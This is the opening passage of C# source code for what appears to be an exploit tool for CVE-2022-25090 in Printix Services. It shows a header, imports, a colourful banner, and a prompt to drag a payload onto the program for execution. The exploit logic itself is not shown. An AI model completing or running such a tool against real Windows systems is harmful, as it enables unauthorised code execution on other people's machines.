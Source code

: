 # Tested on: Windows 7, Windows 8, Windows 10, Windows 11
# CVE : CVE-2022-25090
# Github for project: https://github.com/ComparedArray/printix-CVE-2022-25090

using System;
using System.Runtime.InteropServices;
using System.Drawing;

using System.Reflection;
using System.Threading;
using System.IO;
using System.Text;
using System.Resources;
using System.Diagnostics;

//Assembly COM for transparent creation of the application.

//End of Assembly COM For Transparent Creation usage.
public class Program
{
    //Initiator class for the program, the program starts on the main method.
    public static void Main(string[] args)
    {
        //Console.SetWindowSize(120,30);
        //Console.SetBufferSize(120,30);
        Console.ForegroundColor = ConsoleColor.Blue;
        Console.WriteLine("┌─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────");
        Console.WriteLine("├              oo dP                           dP                                ");
        Console.ForegroundColor = ConsoleColor.Red;
        Console.WriteLine("├                 88                           88                                ");
        Console.ForegroundColor = ConsoleColor.Green;
        Console.WriteLine("├              dP 88d888b. .d8888b. d888888b d8888P .d8888b. 88d8b.d8b. 88d888b. ");
        Console.ForegroundColor = ConsoleColor.Blue;
        Console.WriteLine("├              88 88'  `88 88'  `88    .d8P'   88   88ooood8 88'`88'`88 88'  `88 ");
        Console.ForegroundColor = ConsoleColor.Yellow;
        Console.WriteLine("├              88 88    88 88.  .88  .Y8P      88   88.  ... 88  88  88 88.  .88 ");
        Console.ForegroundColor = ConsoleColor.Magenta;
        Console.WriteLine("├              dP dP    dP `88888P8 d888888P   dP   `88888P' dP  dP  dP 88Y888P' ");
        Console.WriteLine("├                                                                       88       ");
        Console.WriteLine("├                                                                       dP       ");
        Console.ForegroundColor = ConsoleColor.Blue;
        Console.Write("├                                    For ");
        Console.ForegroundColor = ConsoleColor.Magenta;
        Console.Write("Printix ");
        Console.ForegroundColor = ConsoleColor.Blue;
        Console.Write("Services                       Designed By Logan Latvala\n");
        Console.WriteLine("└─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────");
        Thread.Sleep(3000);
        string filesH = "";
        Console.WriteLine("Drag and drop a payload onto this application for execution.");